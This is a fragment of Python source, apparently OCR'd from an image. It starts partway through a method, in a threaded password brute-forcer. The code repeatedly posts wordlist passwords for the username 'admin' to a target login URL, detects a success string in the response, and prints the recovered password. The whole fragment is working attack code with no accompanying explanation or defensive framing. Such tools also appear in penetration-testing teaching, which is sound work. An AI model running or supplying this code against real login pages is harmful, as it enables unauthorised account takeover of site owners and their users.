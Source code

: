 ```python
            passwd = passwords.get()
            print(f'Trying username/password: {self.username}/{passwd:<10}')
            params['pwd'] = passwd

            r1 = session.post(self.url, data=params)
            if SUCCESS in r1.content.decode():
                self.found = True
                print(f'\nBruteforcing successful.')
                print(f'Username is {self.username}')
                print(f'Password is {passwd}\n')
                print('done: now cleaning up other threads...')

if __name__ == '__main__':
    words = get_words()
    b = Bruter('admin', TARGET)
    b.run_bruteforce(words)
```